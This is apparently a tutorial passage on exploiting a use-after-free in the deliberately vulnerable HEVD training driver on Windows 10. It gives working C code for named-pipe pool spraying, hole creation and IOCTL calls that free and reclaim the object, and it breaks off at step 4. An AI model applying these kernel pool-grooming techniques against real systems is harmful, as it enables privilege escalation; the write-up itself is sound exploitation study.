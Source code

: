 # HEVD - UAF NONPAGEDNX VULNERABILITY

## INTRODUCTION

Searching the internet about windows kernel exploitation i have found a lot of resources related to HackSysExtremeVulnerableDriver in Windows 7. However, i haven't found many references related to HackSysExtremeVulnerableDriver in Windows 10, so i have decided to dig into Windows 10 modern kernel exploitation and develop an exploit for the Use After Free vulnerability in NonPagedNX pool affecting this driver.

## THE VULNERABILITY

The vulnerability is pretty simple to understand. There are two IOCTL calls that are related with the UaF vulnerability:

#### AllocateUaFObjectNonPagedPoolNX:
This IOCTL (0x222053) allocates an object in the NonPagedNx pool with the tag "Hack". The size of the object is 0x60 bytes and the returned pointer by ExAllocatePoolWithTag is stored in a global variable called g_UseAfterFreeObjectNonPagedPoolNx:

![Image](/images/AllocatePoolWithTag_0x222053.jpg)

#### FreeUaFObjectNonPagedPoolNx:

Calling the IOCTL (0x22205B) just free the previous allocated object:

![Image](/images/FreePoolWithTag_0x22205B.jpg)

There are other IOCTL calls related to this vulnerability like AllocateFakeObjectNonPagedPoolNX or UseUafObjectNonPagedPoolNX that are not needed. 
One of the main advantages of this vulnerability is that the attacker can control the time between the free and the use and that the attacker can free the vulnerable object multiple times.

## EXPLOITATION STRATEGY

Reading about Nonpaged pool exploitation in modern Windows kernel, the use of named pipes is a common strategy for grooming the pool. Specifically, using named pipes, objects of type DATA_QUEUE_ENTRY (https://doxygen.reactos.org/d8/d97/struct__NP__DATA__QUEUE__ENTRY.html) can be created in this memory space with the desired size and it is also possible to control part of the content of the object (except the header). 
These objects are tagged in the pool with the NpFr tag and can be created using the code below:

```
printf("[+] Spray 10,000 DATA_QUEUE_ENTRY objects in Non-Paged Pool\n");
	for (i = 0; i < 10000; i++) {

		PipeArrayB[i].Write = CreateNamedPipe(
			L"\\\\.\\pipe\\exploit_HEVD_UAF2",
			PIPE_ACCESS_OUTBOUND | FILE_FLAG_OVERLAPPED,
			PIPE_TYPE_BYTE | PIPE_WAIT,
			PIPE_UNLIMITED_INSTANCES,
			DATA_ENTRY,
			DATA_ENTRY,
			0,
			0);
		PipeArrayB[i].Read = CreateFile(L"\\\\.\\pipe\\exploit_HEVD_UAF2", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);


		res = WriteFile(PipeArrayB[i].Write, payload, DATA_ENTRY, &resultLength, NULL); //Allocate 0x60 bytes en NpFr POOL

		if (!res)
		{
			printf("[-] Failed to writeFile payloadMid %d", GetLastError());
			return;
		}

	}
  ```
  
  In this code example, the body of the DATA_QUEUE_ENTRY object is 0x28. This is the size of the data written in the entry. The object has also a header of 0x30 bytes that is represented by the struct below:
  
   ```
  struct DATA_QUEUE_ENTRY {
    LIST_ENTRY NextEntry;
    _IRP* Irp;
    _SECURITY_CLIENT_CONTEXT* SecurityContext;
    uint32_t EntryType;
    uint32_t QuotaInEntry;
    uint32_t DataSize;
    uint32_t x;
    char Data[];
}
 ```
 
So the total size of the object in memory is 0x58. This almost fit the size of the object (0x60) used by HEVD, but from the prespective of the memory manager both objects are of the same size. For now, just mention that the DataSize field stores the size of the data written in the DATA_QUEUE_ENTRY of the named pipe with the WriteFile API. The char data[] array includes the written data. 
Using the vulnerability, we can potentially free a space of 0x60 bytes in pool memory and reclaim this space using a fake DATA_QUEUE_ENTRY object (NpFr tag). The size of 0x60 indicate that the  Segment Heap backend used by the aplication is LFH.

The strategy to achieve this goal is detailed below:

####  1. Spray the pool with 10000  DATA_QUEUE_ENTRY objects:

```
printf("[+] Spray 10,000 DATA_QUEUE_ENTRY objects in Non-Paged Pool\n");
	for (i = 0; i < 10000; i++) {

		PipeArrayB[i].Write = CreateNamedPipe(
			L"\\\\.\\pipe\\exploit_HEVD_UAF2",
			PIPE_ACCESS_OUTBOUND | FILE_FLAG_OVERLAPPED,
			PIPE_TYPE_BYTE | PIPE_WAIT,
			PIPE_UNLIMITED_INSTANCES,
			DATA_ENTRY,
			DATA_ENTRY,
			0,
			0);
		PipeArrayB[i].Read = CreateFile(L"\\\\.\\pipe\\exploit_HEVD_UAF2", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);


		res = WriteFile(PipeArrayB[i].Write, payload, DATA_ENTRY, &resultLength, NULL); //Allocate 0x60 bytes en NpFr POOL

		if (!res)
		{
			printf("[-] Failed to writeFile payloadMid %d", GetLastError());
			return;
		}

	}
  ```
  
  After this spray, the nonpaged pool memory should looks like:
  
  ![Image](/images/spray1.jpg)
  
  ####  2. Create holes
  
After this, we create holes by freeing some of the DATA_QUEUE_ENTRY objects. To free the objects we just need to call CloseHandle() API using as parameter the read and write handles returned by CreateFile() and CreatedNamedPipe():

   ```
void CreateHoles() {

	UINT i = 0;
	DWORD readBytes = 0;

	for (i = 0; i < 10000; i+=4) {
		if (!CloseHandle(PipeArrayB[i].Read) && !CloseHandle(PipeArrayB[i].Write)) {
			printf("Failed to Close Handle of Objects in readPipeArrayB and writePipeArrayB: 0x%X\n", GetLastError());
			return;
		}

	}
	printf("[+] Close handles to create holes in Non-Paged Pool\n");
}
 ```
 
 The memory layout after freeing objects is showed below:
 
   ![Image](/images/holes1.jpg)
   
At this point, we have 0x60 size holes in the NonPaged pool memory. The goal now is to allocate the g_UseAfterFreeObjectNonPagedPoolNx (HEVD.sys) in one of this holes by calling the 0x222053 IOCTL and then free this object calling the IOCTL 0x22205B:
 
    ```
 //allocate HEVD object
	printf("[+] Allocate HEVD object\n");
	DeviceIoControl(hevd, IOCTL_ALLOC_NX, NULL, 0, NULL, 0, &BytesReturned, NULL);
	printf("[+] Free HEVD object\n");
	//free  HEVD object
	DeviceIoControl(hevd, IOCTL_FREE_NX, NULL, 0, NULL, 0, &BytesReturned, NULL);
 ```

   
The memory layout at this point is showed below:
   
      ![Image](/images/HEVD.jpg)
      
      
      
####  3. Reclaim freed HEVD object
       
    Right now we need to reclaim the freed HEVD object spraying again with NpFr (DATA_QUEUE_ENTRY) objects. The code is the that used previously in step 1.
    
    It's important to use the same unique pipe name that was used in the first spray. The reason of this will be explained in the next section and it's related with the cleanup process. At this point the memory layout is showed below:
    
      ![Image](/images/AllocNpFr.jpg)
      
In the image above we see in green that the previously allocated HEVD object has been filled by a DATA_QUEUE_ENTRY object (tagged with NpFr).
      
   ####  4. Free DATA_QUEUE_ENTRY object
   
 Now we can trigger the free IOCTL 0x22205B  again to free this NpFr object obtaining the memory laylout below:
      
      
   
